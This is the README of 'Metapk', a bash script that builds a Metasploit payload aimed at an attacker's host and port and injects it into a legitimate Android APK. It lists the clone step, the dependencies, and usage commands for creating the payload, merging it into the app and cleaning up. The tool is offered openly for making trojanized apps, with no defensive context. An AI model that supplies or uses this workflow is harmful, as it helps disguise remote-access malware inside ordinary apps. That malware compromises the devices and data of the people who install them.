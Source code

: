 # Metapk
Merge Metasploit Payload And Legit Apk With Ease.

## Let's Dive In
Clone The Repository To Your Machine

In Case You Don't Know How To Do That, Here's The Command,

```
git clone
```

### Dependencies
*	A Pc With Bash Shell (Most Suitably Linux)
*	[Bat](https://github.com/sharkdp/bat)
*	A Chunk Of Processing Power From Your Brain

## Usage
To Create A Payload Only;
```
./metapk -c <lhost> <lport>
```

To Merge Payload And Original Apk;
```
./metapk -e <original apk> <payload>
```
CleanUp The Present Working Directory;
```
./metapk --clean
```

#### Note: For Best Results, Copy Original Apk And Payload Into Metapk Directory.
##### Ps: There Shouldn't Be Space Between Apk Names. (Working On That).
###### PPS:This Script Won't Work For All Apks
